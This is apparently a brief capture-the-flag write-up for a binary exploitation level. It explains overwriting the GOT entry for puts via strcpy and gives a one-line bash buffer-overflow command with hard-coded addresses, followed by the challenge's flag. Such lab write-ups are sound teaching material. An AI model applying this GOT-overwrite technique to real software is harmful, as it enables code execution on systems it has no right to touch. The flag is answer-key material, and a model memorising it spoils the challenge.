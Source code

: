 # Level 7

We need to override 'puts' with 'm' in GOT using strcpy.

```bash
./level7 $(python -c 'print "x" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

**Flag:** `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`
